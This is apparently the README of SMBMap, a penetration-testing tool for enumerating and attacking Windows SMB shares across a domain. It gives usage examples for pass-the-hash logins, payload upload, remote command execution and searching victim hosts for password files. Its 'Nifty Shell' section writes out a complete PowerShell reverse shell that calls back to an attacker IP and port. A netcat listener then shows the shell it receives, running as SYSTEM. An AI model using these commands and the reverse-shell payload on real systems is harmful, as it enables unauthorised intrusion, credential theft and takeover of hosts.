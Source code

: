 # SMBMap

SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.

Some of the features have not been thoroughly tested, so changes will be forth coming as bugs are found. I only really find and fix the bugs while I'm on engagements, so progress is a bit slow. Any feedback or bug reports would be appreciated. It's definitely rough around the edges, but I'm just trying to pack in features at the moment. Version 2.0 should clean up the code a lot….whenever that actually happens ;). Thanks for checking it out!! Planned features include --update (so you don't have to visit this page), actual logging, shadow copying ntds.dit automation (Win7 and up only..for now), other things….

You'll need Impacket to use this tool:

https://code.google.com/p/impacket/

## Features:
- Pass-the-hash Support
- File upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- Remote Command Execution
- Distrubted file content searching (new!)
- File name matching (with an auto downoad capability)

```
SMBMap - Samba Share Enumerator
Shawn Evans - Shawn.Evans@gmail.com

$ python smbmap.py -u jsmith -p password1 -d workgroup -h 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -h 172.16.0.20
$ cat smb_ip_list.txt | python smbmap.py -u jsmith -p password1 -d workgroup
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'

-P      port (default 445), ex 139
-h      IP of host
-u      Username, if omitted null session assumed
-p      Password or NTLM hash
-s      Share to use for smbexec command output (default C$), ex 'C$'
-x      Execute a command, ex. 'ipconfig /r'
-d      Domain name (default WORKGROUP)
-R      Recursively list dirs, and files (no share\path lists ALL shares), ex. 'C$\Finance'
-A      Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex "(web|global).(asax|config)"
-r      List contents of directory, default is to list root of all shares, ex. -r 'c$\Documents and Settings\Administrator\Documents'
-F      File content search, -F '[Pp]assword' (requies admin access to execute commands, and powershell on victim host)
--search-path   Specify drive/path to search (used with -F, default C:\Users), ex 'D:\HR\'
-D      Download path, ex. 'C$\temp\passwords.txt'
-L      List all drives on a host
--upload-src    File upload source, ex '/temp/payload.exe'  (note that this requires --upload-dst for a destiation share)
--upload-dst    Upload destination on remote host, ex 'C$\temp\payload.exe'
--del       Delete a remote file, ex. 'C$\temp\msf.exe'
--skip      Skip delete file confirmation prompt
-q      Disable verbose output (basically only really useful with -A)
```

## Sample Default Output:
```
$ cat smb-hosts.txt | python smbmap.py -u jsmith -p 'R33nisP!nckl3' -d ABC
[+] Reading from stdin
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.0.5:445 Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    NO ACCESS
        TMPSHARE                                                READ, WRITE
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        IPC$                                                    NO ACCESS
        print$                                                  READ, WRITE
        My Dirs                                                 NO ACCESS
        WWWROOT_OLD                                             NO ACCESS
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE

$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -h 192.168.2.50
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
abcadmin                  
The command completed successfully.
```
## File Content Searching:

```
$ python smbmap.py -h 192.168.1.203 -u Administrator -p p00p1234! -F password --search-path 'C:\Users\wingus\AppData\Roaming'
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.1.203:445 Name: unkown                                            
[+] File search started on 1 hosts...this could take a while
[+] Job 861d4cd845124cad95d42175 started on 192.168.1.203, result will be stored at C:\Windows\TEMP\861d4cd845124cad95d42175.txt
[+] Grabbing search results, be patient, share drives tend to be big...
[+] Job 1 of 1 completed
[+] All jobs complete
Host: 192.168.1.203       Pattern: password
C:\Users\wingus\AppData\Roaming\Mozilla\Firefox\Profiles\35msadwm.default\logins.json
C:\Users\wingus\AppData\Roaming\Mozilla\Firefox\Profiles\35msadwm.default\prefs.js
```

## Drive Listing
This feature was added to compliment the file content searching feature

```
$ python smbmap.py -h 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L 
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.1.24:445 Name: unkown                                            
[+] Host 192.168.1.24 Local Drives: C:\ D:\
[+] Host 192.168.1.24 Net Drive(s):
    E:      \\vboxsrv\Public      VirtualBox Shared Folders
```

## Nifty Shell:
Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
[!] Error encountered, sharing violation, unable to retrieve output
```

## Attackers Netcat Listener

```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
